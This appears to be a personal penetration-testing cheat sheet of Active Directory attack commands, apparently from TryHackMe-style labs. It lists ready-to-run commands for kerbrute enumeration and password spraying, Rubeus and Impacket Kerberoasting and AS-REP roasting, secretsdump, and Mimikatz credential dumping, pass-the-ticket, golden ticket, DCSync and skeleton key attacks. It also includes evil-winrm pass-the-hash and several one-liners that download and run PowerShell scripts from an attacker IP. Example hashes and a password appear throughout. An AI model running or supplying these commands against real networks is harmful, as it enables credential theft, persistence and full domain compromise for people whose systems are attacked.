 # KERBRUTE
## Path
~/hack/tools/kerbrute-1.0.3

## Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

## Enumeration
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

## Password Spray
./kerbrute_linux_amd64 passwordspray --dc controller.local -d controller.local ./wordlist.txt Password1

# RUBEUS

## Harvest TGT's from Host
Rubeus.exe harvest /interval:30 

## Password Spray
Rubeus.exe brute /password:Password1 /noticket

## Kerberoast
Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash.txt Pass.txt

## AS-REP Roasting -Pre-Auth Disabled
	* Rubeus.exe asreproast  - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes
	* Crack those Hashes w/ hashcat - 
		○ 1.) Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file
		○ 2.) Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....
		○ 3.) hashcat -m 18200 hash.txt Pass.txt - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200
	

# IMPACKET

## KERBEROAST
Kerberoast - EXECUTED REMOTELY FROM KALI, ENUMRATES AND REQUESTS ALL KERBEROASTABLE ACCOUNTS
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.105.214 -request

## AS-REP Roasting
GetNPUsers.py
GetNPUsers.py <DOMAIN NAME>/ -no-pass -usersfile usernames.txt

## Dump Secrets
secretsdump.py thm-ad/backup:'backup2517860'@thm-ad

# MIMIKATZ

## Download and Dump Creds
iex (iwr http://10.9.80.37/Invoke-Mimikatz.ps1 -UseBasicParsing);Invoke-Mimikatz -DumpCreds

## Dump Hashes
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
hashcat -m 1000 <hash> rockyou.txt

## Export Tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

## Pass the Ticket
 Invoke-Mimikatz -Command '"kerberos::ptt [0;59dfa]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi"'

## Golden Ticket Attack

	1. Execute mimikatz on DC as DA to get krbtgt hash
		a. Invoke-Mimikatz -Command '"lsadump::lsa /patch"' –Computername dcorp-dc 
	2. On any machine 
		a. Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:domain.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges: 
	• Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"' 
Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500 /groups:512 /ptt"'

## Skeleton Key
Invoke-Mimikatz -Command '"misc::skeleton"'

# POWERVIEW

iex (iwr http://10.9.80.37/PowerView3.ps1 -UseBasicParsing)

# EVIL-WINRM

## PTH
evil-winrm -i thm-ad -u administrator -H 0e0363213e37b94221497260b0bcb4fc

# BLOODHOUND

iex (iwr http://10.9.80.37/SharpHound.ps1 -UseBasicParsing)
Invoke-BloodHound -CollectionMethod ALL
